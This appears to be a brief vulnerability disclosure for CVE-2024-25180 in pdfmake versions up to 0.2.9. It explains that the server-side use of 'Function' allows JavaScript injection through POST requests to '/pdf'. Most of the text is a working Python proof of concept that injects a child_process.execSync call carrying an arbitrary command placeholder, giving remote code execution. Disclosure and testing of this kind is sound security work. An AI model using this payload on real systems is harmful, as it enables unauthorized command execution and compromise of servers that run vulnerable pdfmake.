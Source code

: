 # CVE-2024-25180
Due to pdfmake's use of the 'Function' class on the server, there is a possibility of JavaScript code injection. This can occur when sending a POST request to the path '/pdf', which can result in Remote Code Execution (RCE).

Name Affected product: pdfmake

Version affected: <= 0.2.9

Problem: Code Injection

Proof of concept:
```py
import requests

data = {
    "content": "this.process.mainModule.require('child_process').execSync('<COMMAND>').toString(); const dd = 2"
}

resp = requests.post("http://ip:port/pdf", data=data)
print(resp.text)
```